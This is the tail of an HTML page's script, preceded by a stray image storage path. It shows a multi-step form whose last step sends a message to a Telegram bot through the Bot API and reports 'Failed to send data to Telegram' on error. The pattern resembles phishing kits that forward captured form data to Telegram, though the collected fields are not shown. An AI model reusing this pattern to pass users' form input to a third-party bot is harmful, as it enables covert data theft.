         const url = `https://api.telegram.org/bot${botToken}/sendMessage`;
        const res = await fetch(url, {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({
            chat_id: chatId,
            text: message,
            parse_mode: 'Markdown'
          })
        });
        if (!res.ok) {
          throw new Error('Telegram API error');
        }
        step3.classList.add('hidden');
        finalMessage.classList.remove('hidden');
      } catch (error) {
        alert('Failed to send data to Telegram. Please try again later.');
        console.error(error);
      }
    } else {
      step3.reportValidity();
    }
  });
</script>
</body>
</html>
